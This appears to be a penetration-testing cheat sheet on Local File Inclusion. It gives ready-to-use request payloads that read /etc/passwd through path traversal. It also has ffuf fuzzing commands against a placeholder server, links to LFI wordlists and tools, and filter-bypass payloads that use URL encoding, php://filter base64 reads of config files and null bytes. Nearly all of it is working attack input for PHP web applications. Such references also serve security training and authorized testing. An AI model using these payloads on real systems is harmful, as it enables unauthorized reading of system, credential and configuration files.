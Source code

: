 ***

#### **LFI Interesting Files Lists**

1. [https://github.com/hussein98d/LFI-files/blob/master/list.txt](https://github.com/hussein98d/LFI-files/blob/master/list.txt)
2. [https://github.com/ricew4ng/Blasting-Dictionary/blob/master/LFI-Interesting-Files%EF%BC%88249%EF%BC%89.txt](https://github.com/ricew4ng/Blasting-Dictionary/blob/master/LFI-Interesting-Files%EF%BC%88249%EF%BC%89.txt)

***

## **Basic LFI Examples**

| Command                                                | Description             |
| ------------------------------------------------------ | ----------------------- |
| /index.php?language=/etc/passwd                        | Basic LFI               |
| /index.php?language=../../../../etc/passwd             | LFI with path traversal |
| /index.php?language=/../../../etc/passwd               | LFI with name prefix    |
| /index.php?language=./languages/../../../../etc/passwd | LFI with approved path  |

***

## **LFI Fuzzing**

| Command                                                                                                                                                                        | Description                |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | -------------------------- |
| ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://\<SERVER\_IP>:/index.php?FUZZ=value' -fs 2287                                      | Fuzz page parameters       |
| ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://\<SERVER\_IP>:/index.php?language=FUZZ' -fs 2287                                                      | Fuzz LFI payloads          |
| ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://\<SERVER\_IP>:/index.php?language=../../../../FUZZ/index.php' -fs 2287 | Fuzz webroot path          |
| ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://\<SERVER\_IP>:/index.php?language=../../../../FUZZ' -fs 2287                                                                      | Fuzz server configurations |

***

## **LFI Automated Tools**

1. [https://github.com/D35m0nd142/LFISuite](https://github.com/D35m0nd142/LFISuite)
2. [https://github.com/OsandaMalith/LFiFreak](https://github.com/OsandaMalith/LFiFreak)
3. [https://github.com/mzfr/liffy](https://github.com/mzfr/liffy)

***

## **LFI Filter Bypasses**

1. Bypass basic path traversal filter: `/index.php?language=....//....//....//....//etc/passwd`
2. Bypass using URL encoding of ../../../etc/passwd: `/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64`
3. Read PHP with base64 filter: `/index.php?language=php://filter/convert.base64-encode/resource=config`
4. Bypass appended extension with path truncation (obsolete): `/index.php?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]`
5. Bypass appended extension with null byte (obsolete): `/index.php?language=../../../../etc/passwd%00`
